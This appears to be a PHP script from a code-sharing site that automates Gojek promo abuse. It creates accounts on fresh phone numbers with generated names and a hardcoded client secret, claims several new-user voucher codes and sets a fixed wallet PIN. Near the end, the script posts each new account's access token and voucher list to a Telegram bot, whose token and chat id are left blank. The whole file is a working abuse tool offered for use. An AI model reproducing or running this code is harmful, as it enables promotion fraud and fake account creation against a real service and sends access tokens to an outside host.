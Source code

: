 
<?php
date_default_timezone_set('Asia/Jakarta');
include "function.php";
ulang:
// function change(){
echo "\n";
echo color("red","    ~ SCRIPT GOJEK AUTO CLAIM VOUCHER + SET PIN ~\n");
echo color("blue","           Time : ".date('[d-m-Y] [H:i:s]')."   \n");
echo color("nevy","                    H3 OFFICIAL         \n");
echo color("purple","           Created by Github : WAHYU T. A \n");
echo color("green","           Remastered by : WAHYU TIRTA AJI         \n");
echo color("yellow","            Format Nomor 62*** / 08*** \n");
echo "\n";
        $nama = nama();
        $email = str_replace(" ", "", $nama) . mt_rand(100, 999);
        echo color("white"," MASUKKAN NOMOR FRESH : ");
        // $no = trim(fgets(STDIN));
        $nohp = trim(fgets(STDIN));
        $nohp = str_replace("62","08",$nohp);
        $nohp = str_replace("(","",$nohp);
        $nohp = str_replace(")","",$nohp);
        $nohp = str_replace("-","",$nohp);
        $nohp = str_replace(" ","",$nohp);

        if (!preg_match('/[^+0-9]/', trim($nohp))) {
            if (substr(trim($nohp),0,3)=='62') {
                $hp = trim($nohp);
            }
            else if (substr(trim($nohp),0,1)=='0') {
                $hp = '62'.substr(trim($nohp),1);
        }
         elseif(substr(trim($nohp), 0, 2)=='62'){
            $hp = '6'.substr(trim($nohp), 1);
        }
        else{
            $hp = '1'.substr(trim($nohp),0,13);
        }
    }
        $data = '{"email":"'.$email.'@gmail.com","name":"'.$nama.'","phone":"+'.$hp.'","signed_up_country":"ID"}';
        $register = request("/v5/customers", null, $data);
        if(strpos($register, '"otp_token"')){
        $otptoken = getStr('"otp_token":"','"',$register);
        echo color("white"," MENGIRIM KODE OTP ...")."\n";
        sleep(1);
        otp:
        echo color("white"," OTP : ");
        $otp = trim(fgets(STDIN));
        $data1 = '{"client_name":"gojek:cons:android","data":{"otp":"' . $otp . '","otp_token":"' . $otptoken . '"},"client_secret":"83415d06-ec4e-11e6-a41b-6c40088ab51e"}';
        $verif = request("/v5/customers/phone/verify", null, $data1);
        if(strpos($verif, '"access_token"')){
        echo color("white","BERHASIL MENDAFTAR\n");
        $token = getStr('"access_token":"','"',$verif);
        $uuid = getStr('"resource_owner_id":',',',$verif);
        echo color("white","[+] Your access token : ".$token."\n\n");
        save("token.txt",$token); 
        echo color("white","\n▬▬▬▬▬▬▬▬▬▬▬▬CLAIM VOUCHER▬▬▬▬▬▬▬▬▬▬▬▬");
        echo "\n".color("white"," CLAIM VOUCHER A");
        echo "\n".color("white"," Please wait");
        for($a=1;$a<=3;$a++){
        echo color("white",".");
        sleep(5);
        }
        $code1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"EATLAH"}');
        $message = fetch_value($code1,'"message":"','"');
        if(strpos($code1, 'Promo kamu sudah bisa dipakai')){
        echo "\n".color("green","Message : ".$message);
        goto gocar;
        }else{
        echo "\n".color("white"," Message: ".$message);
	gocar:
        echo "\n".color("white"," CLAIM VOUCHER B");
        echo "\n".color("white"," Please wait");
        for($a=1;$a<=3;$a++){
        echo color("white",".");
        sleep(35);
        }
        $code1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"COBAGOFOOD0906"}');
        $message = fetch_value($code1,'"message":"','"');
        if(strpos($code1, 'Promo kamu sudah bisa dipakai.')){
        echo "\n".color("green","Message : ".$message);
        goto gofood;
        }else{
        echo "\n".color("white"," Message: ".$message);
        gofood:
        echo "\n".color("white"," CLAIM VOUCHER C");
        echo "\n".color("white"," Please wait");
        for($a=1;$a<=3;$a++){
        echo color("white",".");
        sleep(3);
        }
        $code1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"PESANGOFOOD0906"}');
        $message = fetch_value($code1,'"message":"','"');
        echo "\n".color("white"," Message : ".$message);
        echo "\n".color("nevy"," REFRESH ...");
        echo "\n".color("white"," Please wait");
        for($a=1;$a<=3;$a++){
        echo color("white",".");
        sleep(3);
        }
        sleep(3);
        $boba09 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"COBAGOFOOD0906"}');
        $messageboba09 = fetch_value($boba09,'"message":"','"');
        echo "\n".color("white"," Message : ".$messageboba09);
        sleep(1);
        $cekvoucher = request('/gopoints/v3/wallet/vouchers?limit=13&page=1', $token);
        $total = fetch_value($cekvoucher,'"total_vouchers":',',');
        $voucher1 = getStr1('"title":"','",',$cekvoucher,"1");
        $voucher2 = getStr1('"title":"','",',$cekvoucher,"2");
        $voucher3 = getStr1('"title":"','",',$cekvoucher,"3");
        $voucher4 = getStr1('"title":"','",',$cekvoucher,"4");
        $voucher5 = getStr1('"title":"','",',$cekvoucher,"5");
        $voucher6 = getStr1('"title":"','",',$cekvoucher,"6");
        $voucher7 = getStr1('"title":"','",',$cekvoucher,"7");
        $voucher8 = getStr1('"title":"','",',$cekvoucher,"8");
        $voucher9 = getStr1('"title":"','",',$cekvoucher,"9");
        $voucher10 = getStr1('"title":"','",',$cekvoucher,"10");
        $voucher11 = getStr1('"title":"','",',$cekvoucher,"11");
        $voucher12 = getStr1('"title":"','",',$cekvoucher,"12");
        $voucher13 = getStr1('"title":"','",',$cekvoucher,"13");
        echo "\n".color("red"," Total Voucher : ");
        echo "\n".color("green","                     1. ".$voucher1);
        echo "\n".color("green","                     2. ".$voucher2);
        echo "\n".color("green","                     3. ".$voucher3);
        echo "\n".color("green","                     4. ".$voucher4);
        echo "\n".color("green","                     5. ".$voucher5);
        echo "\n".color("green","                     6. ".$voucher6);
        echo "\n".color("green","                     7. ".$voucher7);
        echo "\n".color("green","                     8. ".$voucher8);
        echo "\n".color("green","                     9. ".$voucher9);
        echo "\n".color("green","                     10. ".$voucher10);
	echo "\n".color("green","                     11. ".$voucher11);
        echo "\n".color("green","                     12. ".$voucher12);
        echo "\n".color("green","                     13. ".$voucher13);
        echo"\n";
        $expired1 = getStr1('"expiry_date":"','"',$cekvoucher,'1');
        $expired2 = getStr1('"expiry_date":"','"',$cekvoucher,'2');
        $expired3 = getStr1('"expiry_date":"','"',$cekvoucher,'3');
        $expired4 = getStr1('"expiry_date":"','"',$cekvoucher,'4');
        $expired5 = getStr1('"expiry_date":"','"',$cekvoucher,'5');
        $expired6 = getStr1('"expiry_date":"','"',$cekvoucher,'6');
        $expired7 = getStr1('"expiry_date":"','"',$cekvoucher,'7');
        $expired8 = getStr1('"expiry_date":"','"',$cekvoucher,'8');
        $expired9 = getStr1('"expiry_date":"','"',$cekvoucher,'9');
        $expired10 = getStr1('"expiry_date":"','"',$cekvoucher,'10');
        $expired11 = getStr1('"expiry_date":"','"',$cekvoucher,'11');
        $expired12 = getStr1('"expiry_date":"','"',$cekvoucher,'12');
        $expired13 = getStr1('"expiry_date":"','"',$cekvoucher,'13');
        $TOKEN  = ":";
	$chatid = "";
	$pesan 	= "[+] Gojek Account Info [+]\n\n".$token."\n\nTotalVoucher = ".$total."\n[+] ".$voucher1."\n[+] Exp : [".$expired1."]\n[+] ".$voucher2."\n[+] Exp : [".$expired2."]\n[+] ".$voucher3."\n[+] Exp : [".$expired3."]\n[+] ".$voucher4."\n[+] Exp : [".$expired4."]\n[+] ".$voucher5."\n[+] Exp : [".$expired5."]\n[+] ".$voucher6."\n[+] Exp : [".$expired6."]\n[+] ".$voucher7."\n[+] Exp : [".$expired7."]\n[+] ".$voucher8."\n[+] Exp : [".$expired8."]\n[+] ".$voucher9."\n[+] Exp : [".$expired9."]\n[+] ".$voucher10."\n[+] Exp : [".$expired10."] ".$voucher11."\n[+] Exp : [".$expired11."]\n[+] ".$voucher12."\n[+] Exp : [".$expired12."]\n[+] ".$voucher13."\n[+] Exp : [".$expired13."]\n[+]";
	$method	= "sendMessage";
	$url    = "https://api.telegram.org/bot" . $TOKEN . "/". $method;
	$post = [
 		'chat_id' => $chatid,
                'text' => $pesan
        	];
                $header = [
                "X-Requested-With: XMLHttpRequest",
                "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.84 Safari/537.36" 
                        ];
                                        $ch = curl_init();
                                        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
                                        curl_setopt($ch, CURLOPT_URL, $url);
                                        curl_setopt($ch, CURLOPT_HTTPHEADER, $header);
                                        curl_setopt($ch, CURLOPT_POSTFIELDS, $post );   
                                        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
                                        $datas = curl_exec($ch);
                                        $error = curl_error($ch);
                                        $status = curl_getinfo($ch, CURLINFO_HTTP_CODE);
                                        curl_close($ch);
                                        $debug['text'] = $pesan;
                                        $debug['respon'] = json_decode($datas, true);
         setpin:
         echo "\n".color("white","SET PIN? y/n : ");
         $pilih1 = trim(fgets(STDIN));
         if($pilih1 == "y" || $pilih1 == "Y"){
         //if($pilih1 == "y" && strpos($no, "628")){
         echo color("white","▬▬▬▬▬▬▬▬▬▬▬▬▬▬ PIN MU = 112233 ▬▬▬▬▬▬▬▬▬▬▬▬")."\n";
         $data2 = '{"pin":"112233"}';
         $getotpsetpin = request("/wallet/pin", $token, $data2, null, null, $uuid);
         echo "OTP PIN: ";
         $otpsetpin = trim(fgets(STDIN));
         $verifotpsetpin = request("/wallet/pin", $token, $data2, null, $otpsetpin, $uuid);
         echo $verifotpsetpin;
         }else if($pilih1 == "n" || $pilih1 == "N"){
         die();
         }else{
         echo color("white","-] GAGAL!!!\n");
         }
         }
         }
         }else{
         echo color("white","-] OTP SALAH");
         echo"\n▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬\n\n";
         echo color("white","!] INPUT ULANG..\n");
         goto otp;
         }
         }else{
         echo color("white","-] NOMOR SALAH");
         echo"\n▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬\n\n";
         echo color("white","!] MASUKKAN LAGI\n");
         goto ulang;
         }
//  }

// echo change()."\n";
